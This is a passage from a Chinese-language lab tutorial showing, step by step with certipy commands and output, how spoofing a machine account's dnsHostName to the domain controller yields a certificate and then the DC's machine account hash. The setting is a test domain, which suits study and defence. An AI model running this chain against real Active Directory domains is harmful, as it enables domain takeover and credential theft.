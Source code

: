 

        执行如下命令使用certipy利用ldaps远程创建machine机器用户，并且设置其dnsHostname为DC01.xie.com。



```
certipy account create "xie.com/test:P@ss1234@DC01.xie.com" -dc-ip 10.211.55.4 -user "machine" -dns 'DC01.xie.com' -debug
```




        如图可以看到创建成功，其密码为680dXJBlJ6vy9ycN。



![](https://img-blog.csdnimg.cn/img_convert/5202fbc70b30454ed1fac5041be1c951.png)



        注：有很多创建机器用户的方式，需要注意的是，当使用SAMR协议创建机器用户时，机器用户默认没有dnsHostName属性和UPN属性。



请求证书

----



执行如下命令使用certipy以machine$身份请求一个Machine类型的证书。



```
certipy req -dc-ip 10.211.55.4 "xie.com/machine$:680dXJBlJ6vy9ycN@CA-Server.xie.com" -ca xie-CA-SERVER-CA -template Machine -debug
```




如图可以看到成功生成dc01.pfx证书文件。



![](https://img-blog.csdnimg.cn/img_convert/3b567c6c27284614b2fe89ca317a905d.png)



认证获得域控hash

----------



执行如下命令使用dc01.pfx进行认证。



```
certipy auth -pfx dc01.pfx -dc-ip 10.211.55.4 -debug
```




如图可以看到得到域控DC01的机器账号哈希为5f8506740ed68996ffd4e5cf80cb5174

